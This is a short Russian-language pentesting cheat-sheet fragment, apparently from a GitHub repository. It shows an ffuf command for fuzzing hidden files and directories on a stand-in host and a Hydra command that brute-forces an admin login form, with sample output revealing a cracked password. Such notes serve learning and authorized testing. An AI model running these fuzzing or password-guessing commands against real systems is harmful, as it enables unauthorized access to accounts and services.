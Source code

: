 ### Исследуем веб-приложение на предмет наличия в нем прочих файлов и разделов.

#### Утилита `ffuf`  
[Набор словарей](https://github.com/empty-jack/YAWR/blob/master/Web/files_and_directories/fuzz.txt)  
```
ffuf -w ~/Repositories/YAWR/Web/files_and_directories/fuzz.txt -u http://evil.corp:1337/FUZZ -fc 403
```
Описание ключей:  
- `-w` – путь до файла со словарем;
- `-u` – целевой URL, в который необходимо поместить слово FUZZ для указания места для вставки паттернов из словаря,
- `-fc` – фильтрация кодов HTTP-ответов.

### Перебор паролей

Утилиты:  
- `Burp Suite`
- `Patator`
- `Medusa`
- `Hydra`
- `Owasp Zap`

Пример использования утилиты `Hydra`:  
```
hydra -l admin -P ./realyBest.txt -s 1337 127.0.0.1 http-post-form -m "/admin/:username=^USER^&password=^PASS^:g=:2=:F=>Login</button>"
```

Результат:
```sh
[1337][http-post-form] host: 127.0.0.1   login: admin   password: q1w2e3r4
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-11-07 14:08:50

```

Словарь для перебора паролей [ссылка](https://github.com/empty-jack/YAWR/blob/master/brute/passwords/realyBest.txt)